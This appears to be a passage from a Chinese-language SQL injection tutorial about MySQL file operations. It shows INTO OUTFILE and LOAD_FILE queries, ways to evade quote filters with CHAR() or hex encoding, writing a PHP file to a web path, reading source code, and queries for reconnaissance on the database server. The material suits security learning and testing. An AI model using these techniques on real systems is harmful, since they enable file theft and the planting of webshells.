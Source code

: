 > <h2 id="14">0x0E 文件读写</h2>
*要想使用MYSQL的文件操作函数对文件进行操作的话，那是需要配置的，我们可以查看`select @@secure_file_priv`,这个参数，如果是空，那么对导入导出无限制，如果是NULL，那么禁止导入导出，如果值是一个目录，那么就只能像指定目录导入导出，这个参数只能通过修改MYSQL配置文件进行打开。*
```sql
    -- 常用的三个函数
        into dumpfile() //只能操作一行数据，并且保持原数据格式
        into outfile() //可以操作多行数据，数据写文件时会有特殊的格式转换
        load_file() //读取文件
```
dumpfile和outfile的区别
```
    dumpfile()和outfile()的区别，可以看看aaa\naaaa\naaa
    select "a\naaaa\taaaa" into outfile "D:/outfile.txt"
    使用outfile()写入时，\n什么的会有实际作用，也就是会被转义为换行，而dumpfile()则不会处理这种转义字符
```
文件的写入，这里就演示outfie,dumpfile也是一样用，就是记住特点就好了
```
    select "<?php phpinfo(); ?>" into outfile "D:/info.php"; //select后面跟要写入的语句，然后into outfile后面要写绝对路径
    注意：路径需要引号闭合，如果有对引号做过滤，那么就没办法了，因为into outfile后面的只能是字符
```
load_file
```
    做文件读取，也需要文件的绝对路径，而且load_file是可以用CHAR或者0x等编码方式来绕过对引号的过滤的
    select 1,2,load_file("D:/hello.txt");
    select 1,2,load_file(char(68, 58, 47, 104, 101, 108, 108, 111, 46, 116, 120, 116)); //注意不要加""去转义,而且使用编码的时候，要用/而不是\
    select 1,2,load_file(0x443a2f68656c6c6f2e747874);

    //使用load_file去读取源码的话也是有办法的，
    select 1,2,replace(load_file("x.php"),"<",""); //这里用replace函数去把<这个符号给替换了，因为不替换的话，源码可能会被浏览器解析，那么就不会返回代码
```
> <h2 id="15">0x0F 信息收集</h2>
*数据库版本*  
`select @@version`  
*当前用户名*
`select user()`  
*当前数据库*  
`select database()`  
*当前数据库路径*  
`select @@datadir`  
`select @@basedir`  
*是否可以到导入导出文件*  
`select @@secure_file_priv`  
`show global variables like '%secure%'`  
*查看当前权限*  
`(select count(*) from mysql.user) > 0`  
***
[回到顶部](#menu)